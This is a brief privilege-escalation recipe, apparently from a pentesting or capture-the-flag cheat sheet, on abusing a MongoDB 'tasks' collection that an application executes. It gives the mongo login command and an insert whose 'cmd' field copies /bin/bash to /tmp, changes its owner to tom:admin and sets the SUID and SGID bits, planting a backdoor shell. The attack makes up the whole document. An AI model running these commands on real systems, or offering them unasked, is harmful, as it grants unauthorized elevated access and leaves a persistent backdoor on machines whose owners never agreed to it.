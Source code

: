 # Execute commands within a MongoDB shell

## Requirements: An application that uses the database runs as the owner we want to escalate

## Steps:

#### 1) 

    mongo -p -u USER DATABASE

#### 2) Copies the bash binary and gives ownership and SGID set with the context of the user that the database is running

    db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/bash; /bin/chown tom:admin /tmp/bash; chmod g+s /tmp/bash; chmod u+s /tmp/bash"}); 
